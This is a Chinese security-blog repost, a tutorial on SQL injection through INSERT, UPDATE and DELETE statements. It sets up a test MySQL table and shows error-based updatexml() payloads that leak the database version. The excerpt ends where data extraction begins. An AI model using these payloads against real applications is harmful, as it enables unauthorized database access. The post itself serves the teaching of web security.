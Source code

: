 ```yaml
---
layout: post
title:  "[转载]另类的SQL注入"
date:   2018-11-25 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


出处：https://www.cnblogs.com/r00tgrok/p/3854754.html

> 前言：相比基于查询的SQL注入，使用insert、update和delete进行SQL注入显得略显另类
>
> 参考自：http://www.exploit-db.com/wp-content/themes/exploit/docs/33253.pdf

## 0x01 准备条件

　　a. mysql数据库

　　b. 创建用于实验的数据库和表

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
Create database newdb; 
 use newdb 
 CREATE TABLE users 
 ( 
 id int(3) NOT NULL AUTO_INCREMENT, 
 username varchar(20) NOT NULL, 
 password varchar(20) NOT NULL, 
 PRIMARY KEY (id) 
 );
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

　　c. 添加部分数据 ： INSERT INTO users (id, username, password) VALUES (1, 'r00tgrok', 'ohmygod_is_r00tgrok');



## 0x02  使用updatexml()函数  // xpath injection

　　1. 注入

　　a. 载荷格式 ：or updatexml(1,concat(0x7e,(version())),0) or

　　b. insert注入：INSERT INTO users (id, username, password) VALUES (2,'Pseudo_Z' or updatexml(1,concat(0x7e,(version())),0) or'', 'security-eng');

　　c. update注入：UPDATE users SET password='security-eng' or updatexml(2,concat(0x7e,(version())),0) or'' WHERE id=2 and username='Pseudo_Z';

　　d. delete注入：DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or'';

　　2. 提取数据
